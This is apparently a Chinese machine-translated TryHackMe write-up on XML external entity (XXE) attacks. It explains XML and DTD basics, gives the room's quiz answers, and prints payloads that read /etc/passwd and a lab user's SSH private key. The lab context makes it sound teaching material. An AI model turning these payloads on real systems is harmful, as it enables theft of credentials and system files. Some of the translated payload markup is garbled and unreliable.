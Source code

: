 # XXE——TryHackme 报道

> 原文：<https://infosecwriteups.com/xxe-tryhackme-writeup-29fb1e0e2666?source=collection_archive---------1----------------------->

## XML 外部实体报告

![](img/b11650cc111c7bae35902a136ab07e5d.png)

欢迎回来伟大的黑客我在这里另一个很酷的话题 OWASP 十大话题之一是 XXE 攻击概念。XXE 代表滥用 XML 数据/解析器的 XML 外部实体。它允许黑客与后端数据进行交互。这将导致拒绝服务攻击和 SSRF，在某些情况下可能导致 RCE 攻击。

***XXE 攻击有带内和带外两种:***

**带内:**黑客注入 XXE 载荷后可以得到即时响应。**坏的:**web 应用程序没有立即响应。

因为我们了解了 XXE 漏洞，所以我们必须了解 XML。

**什么是 XML？**

XML 可扩展标记语言是一种标记语言，它定义了一组规则，用于以机器可读和人类可读的格式对文档进行编码。它用于存储和传输数据。

**我们为什么要使用 XML？**

1.因为 XML 是平台和编程语言不可知的，所以它可以在任何系统上使用，并且随着技术的变化而变化。

2.XML 数据可以随时修改，而不会影响数据的外观。

3.XML 支持 DTD 和模式验证。该验证验证 XML 文档中没有语法错误。

4.由于其平台独立性，XML 使得系统间的数据交换更加容易。在系统之间传输 XML 数据时，不需要转换它。

任务:

> **XML 的完整形式**

可扩展标记语言

> **XML 区分大小写吗？**

是

> **XML 文档中一定要有 XML prolog 吗？**

不

> 我们能根据 so 模式验证 XML 文档吗？

是

> 如何在 XML 文档中指定 XML 版本和编码？

XML prolog

在开始研究 XXE 之前，我们需要知道 XML 中的 DTD 是什么。

文档类型定义(DTD)是文档类型定义的缩写。XML 文档的结构允许 DTD 定义组件和属性。

> 现在让我们看看 DTD 是如何验证 XML 的。这是便条中提到的所有术语的清单。
> 1。！DOCTYPE 注释—定义文档的根元素，注释
> 2。！元素注释-这指定注释元素必须包括以下元素:"收件人、发件人、标题和正文"
> 3。！元素 to-将元素 to 的类型定义为“# PC data”
> 4。！元素来源-将来源元素的类型定义为“# PC data”
> 5。！元素标题-将标题元素的类型定义为“# PC data”
> 6。！元素主体—将主体元素的类型定义为“#PCDATA”。

任务

> 你用什么扩展名保存 DTD 文件？

文档类型定义（Document Type Definition 的缩写）

> 你如何定义一个新元素？

！元素

> **如何定义根元素？**

！文档类型

> **如何定义一个新实体？**

！实体

现在，我们可以通过在易受攻击的 web 应用程序中注入有效负载来了解 XXE 是如何工作的。

> **Ist 有效载荷:**
> 
> **<？xml version="1.0 "？>
> <！DOCTYPE 替换[ <！实体名>>
> <userInfo>
> <名>隼</名>
> <姓> &名；</姓氏>
> </userInfo>**

注入这个简单的有效载荷后，我们将知道漏洞是否在 web 应用程序上起作用。

![](img/f4a9801683fd0866bbbf0d0fe7c21061.png)

有效载荷 2:

我们尝试通过应用有效负载来读取系统文件

> `<?xml version="1.0"?>
> <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
> <root>&read;</root>`

![](img/506a2733cce8652c35570506767e06eb.png)

任务:

> /etc/passwd 中的用户名是什么

猎鹰

> falcon 私钥的前 18 个字符是什么

使用的有效载荷:

> **<？xml version="1.0 "？>
> ！DOCTYPE 根[ <！实体读取系统' file:///home/falcon/。ssh/id _ RSA '>>
> <root>&read；</根>/**

![](img/ce41d0727b777a710991ba1986f3f1fe.png)

MIIEogIBAAKCAQEA7